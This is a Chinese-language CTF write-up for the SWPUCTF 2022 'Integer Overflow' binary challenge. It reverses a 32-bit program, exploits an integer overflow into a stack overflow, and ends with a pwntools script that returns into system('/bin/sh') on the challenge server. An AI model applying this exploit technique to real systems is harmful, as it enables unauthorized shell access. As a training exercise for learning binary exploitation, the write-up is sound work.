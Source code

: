 ## 基本信息

- 题目名称：[SWPUCTF 2022 新生赛]Integer Overflow
- 题目链接：https://www.nssctf.cn/problem/2634
- 考点清单：REVERSE，整数溢出，栈溢出，ROP
- 工具清单：gdb，python-pwntools，redare2

- payloads：详见本文末尾

## 一、看到什么

- 发现运行所需的.so环境在ubuntu22.04不能运行，于是换成kali环境

-   程序基本信息：32位，NX堆栈不可执行，影子栈SHSTK(Shadow Stack)，间接跳转追踪IBT(Indirect Branch Tracking)

![](./images/intOf-info.png)

-   反汇编暴露了7个函数

![](./images/intOf-func.png)

- 程序比较复杂，使用redare2直接输出C代码
- main函数是初始输出，调用了overflow函数

![](./images/intOf-code.png)

- overflow函数是一个菜单

![](./images/intOf-vuln.png)

- choice1、choice2、elsechoice三个函数作为菜单下属选项，逆向发现choice1是通过选项

![](./images/intOf-choice.png)

- 发现choice1中含有一个read函数，传入参数为scanf的name_length，同时由于是无符号整数，存在负数强制转换触发整数溢出
- 反汇编pwn_me函数，发现后门系统调用

![](./images/intOf-backdoor.png)

- 全局找shell字符串，找到“/bin/sh”

![](./images/intOf-bin_sh.png)

## 二、想到什么解题思路

### 第一轮

-   通过菜单选项选择进入choice1
-   传入负数触发整数溢出，无限read
-   read栈溢出，跳转到系统调用
-   由于32位程序，直接后跟shell字符串地址，调用时返回地址入栈，可以直接触发入栈传参。

## 三、尝试过程和结果记录

### 第一轮

-   padding=0x20+0x4=0x24=36
-   sys=0x080494fb
-   sh_addr=0x804a008
-   直接构造payload=padding * b’a’+p32(sys)+p32(sh_addr)

## 四、Payload

```python
from pwn import *

lc = "./int"

rm = "node5.anna.nssctf.cn"
prt = 29234

elf = ELF(lc)
#p = process(lc)
p = remote(rm,prt)

sys = p32(0x080494fb)
sh_addr = p32(0x804a008)
padding = 36*b'a'
payload = padding + sys + sh_addr 

#context.terminal = ['tmux','splitw','-h']
#gdb.attach(p)
#pause()

p.recvuntil("Tell me your choice:")
p.send("1\n")
p.recvuntil("length of your name:")
p.send("-1\n")
p.recvuntil("What's u name?\n")
p.sendline(payload)

p.interactive()
```

